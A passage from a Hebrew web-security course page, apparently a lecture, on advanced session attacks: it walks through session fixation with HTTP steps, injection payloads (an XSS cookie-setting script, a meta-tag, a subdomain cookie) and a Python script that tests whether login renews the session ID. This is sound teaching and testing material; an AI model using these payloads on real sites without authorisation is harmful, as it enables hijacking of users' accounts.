

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/2 - תקיפת אותנטיקציה מתקדמת/2.5 - תקיפות סשן מתקדמות/2.5 - תקיפות סשן מתקדמות - הרצאה/index.html · generator: mkdocs

# תקיפות סשן מתקדמות - Advanced Session Attacks

## מבוא

ניהול סשנים הוא אחד מאבני היסוד של אבטחת אפליקציות ווב. טוקן הסשן משמש כתחליף לאימות מחדש בכל בקשה. חולשות בניהול הסשן מאפשרות לתוקף לחטוף סשנים, לזייף אותם, או לנצל אותם בדרכים יצירתיות.

## תקיפה 1: קיבוע סשן - Session Fixation

### הרקע

בתקיפת קיבוע סשן, התוקף כופה על הקורבן להשתמש ב-session ID שידוע לתוקף. כאשר הקורבן מתחבר, התוקף משתמש באותו session ID כדי לגשת לחשבון.

### תנאי מוקדם

האפליקציה חייבת לקבל session IDs מהלקוח ולא לחדש אותם בהתחברות.

![איור זרימה המראה כיצד קיבוע סשן מצליח כאשר השרת אינו מחדש את מזהה הסשן לאחר התחברות מוצלחת](../../../images/illustrations/webadv-2-5-session-fixation.svg)

### שלבי התקיפה

```http
# Step 1: The attacker obtains a session ID
GET / HTTP/1.1
Host: target.com

HTTP/1.1 200 OK
Set-Cookie: session=KNOWN_SESSION_ID; Path=/

# Step 2: The attacker sends a link to the victim with the session ID
# Method A: Via URL
https://target.com/login?session=KNOWN_SESSION_ID

# Method B: Via XSS
<script>document.cookie="session=KNOWN_SESSION_ID"</script>

# Method C: Via meta tag (if there's HTML injection)
<meta http-equiv="Set-Cookie" content="session=KNOWN_SESSION_ID">

# Method D: Via subdomain cookie
# If the attacker controls sub.target.com:
Set-Cookie: session=KNOWN_SESSION_ID; Domain=.target.com

# Step 3: The victim logs in with the known session
POST /login HTTP/1.1
Cookie: session=KNOWN_SESSION_ID

username=victim&password=secret

# Step 4: The attacker uses the same session
GET /dashboard HTTP/1.1
Cookie: session=KNOWN_SESSION_ID

# If the session wasn't renewed -> the attacker is logged in as the victim!
```

### בדיקה

```python
import requests

def test_session_fixation(base_url):
    """Test the session fixation vulnerability"""

    session = requests.Session()

    # Step 1: Obtain a session ID
    resp = session.get(f"{base_url}/")
    original_session = session.cookies.get('session')
    print(f"[*] Session before login: {original_session}")

    # Step 2: Log in
    session.post(f"{base_url}/login", data={
        'username': 'wiener',
        'password': 'peter'
    })

    new_session = session.cookies.get('session')
    print(f"[*] Session after login: {new_session}")

    if original_session == new_session:
        print("[+] Session not renewed - vulnerable to Session Fixation!")
    else:
        print("[-] Session renewed at login - protected")
```

## תקיפה 2: בלבול סשן - Session Puzzling
